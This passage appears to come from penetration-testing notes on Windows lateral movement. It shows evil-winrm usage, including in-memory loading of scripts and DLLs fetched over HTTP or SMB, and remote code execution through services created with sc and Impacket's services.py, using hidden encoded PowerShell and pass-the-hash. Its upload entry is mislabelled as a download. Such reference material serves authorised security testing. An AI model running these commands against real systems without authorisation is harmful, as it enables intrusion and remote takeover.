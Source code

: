 The `evil-winrm` `ruby` extend the code above with a number of functionality,
such as command history and completion, upload and download of files, loading
of in memory of `PowerShell` scripts, dll or `C#` binary, etc.

```
evil-winrm -u <USERNAME> -p '<PASSWORD>' -i <HOSTNAME | IP> -s <LOCAL_PATH_PS_SCRIPTS> -e <LOCAL_PATH_EXE_SCRIPTS>
```

Supported commands:

| Command | Description |
|---------|-------------|
| download <REMOTE_PATH> <LOCAL_PATH> | Download remote file. LOCAL_PATH is not required |
| upload <LOCAL_PATH> <REMOTE_PATH> | Download remote file. |
| services | List Windows services and the associated binaries paths |
| <PS_NAME.ps1> | Load the specified PowerShell script in memory. The PowerShell script must be in the path set at -s argument **when the evil-winrm shell was started.** <br /> `menu` can be used to list the loaded cmdlets. |
| Invoke-Binary <LOCAL_BINARY_PATH> | Load the specified binary, compiled from `C#`, to be executed in memory. Accepts up to 3 arguments |
| l04d3r-LoadDll | Load dll libraries in memory, equivalent to: `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("pwn.dll"))` |

```
l04d3r-LoadDll -smb -path \\<HOSTNAME | IP>\\<SHARE>\\<DLL>
l04d3r-LoadDll -local -path <LOCAL_DLL_PATH>
l04d3r-LoadDll -http -path http://<URL>/<DLL>
```

###### [Over SMB] Remote Windows services

The Windows built-in utility `Service Control (sc)` and the `Impacket`'s
`services.py` Python script can be used to remotely create and start a Windows
service.

Remote code execution can be achieved through a Windows service by:
    - Copying a binary to the targeted system and executing it through the
      service (`PsExec`-like).
    - Directly executing a one-liner or payload through a built-in Windows
      binary, such as `cmd.exe`.

Refer to the `[General] Shells` note for Windows reverse shell one-liners and
scripts.

Note that if the specified binary is not a service binary (i.e. a binary
implementing the `LPSERVICE_MAIN_FUNCTION` callback function), an error message
will be raised (`Error 1053: The service did not respond to the start or
control request in a timely fashion.`). The binary will however have been
executed once, which for some payload may be sufficient (`meterpreter`
notably).

```
# <SERVICE_COMMAND> example with a Windows binary: <cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>' |  %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD> | ...>

sc \\<IP | HOSTNAME> create <SERVICE_NAME> binpath= "<SERVICE_COMMAND>"
sc \\<IP | HOSTNAME> start <SERVICE_NAME>

# NTLM authentication
services.py [-target-ip <TARGET_IP>] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> create -name <SERVICE_NAME> -display <SERVICE_DISPLAY_NAME> -path '<SERVICE_COMMAND>'
services.py [-target-ip <TARGET_IP>] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> <start | delete> -name <SERVICE_NAME>

services.py -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> create -name <SERVICE_NAME> -display <SERVICE_DISPLAY_NAME> -path '<SERVICE_COMMAND>'
```
